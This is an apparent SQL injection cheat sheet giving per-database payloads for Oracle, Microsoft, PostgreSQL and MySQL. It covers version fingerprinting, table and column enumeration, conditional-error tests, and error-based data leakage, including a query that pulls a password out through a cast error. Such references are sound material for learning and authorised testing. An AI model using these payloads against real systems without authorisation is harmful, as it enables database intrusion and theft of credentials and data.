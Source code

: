 ## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|            |                                                                    |
| ---------- | ------------------------------------------------------------------ |
| Oracle     | `SELECT banner FROM v$version   SELECT version FROM v$instance   ` |
| Microsoft  | `SELECT @@version`                                                 |
| PostgreSQL | `SELECT version()`                                                 |
| MySQL      | `SELECT @@version`                                                 |
|            |                                                                    |

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

|            |                                                                                                                              |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`                              |
| Microsoft  | `SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   ` |
| PostgreSQL | `SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   ` |
| MySQL      | `SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   ` |

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

|            |                                                                                         |
| ---------- | --------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

## Extracting data via visible error messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

|   |   |
|---|---|
|Microsoft|`SELECT 'foo' WHERE 1 = (SELECT 'secret')      > Conversion failed when converting the varchar value 'secret' to data type int.`|
|PostgreSQL|`SELECT CAST((SELECT password FROM users LIMIT 1) AS int)      > invalid input syntax for integer: "secret"`|
|MySQL|`SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))      > XPATH syntax error: '\secret'`|

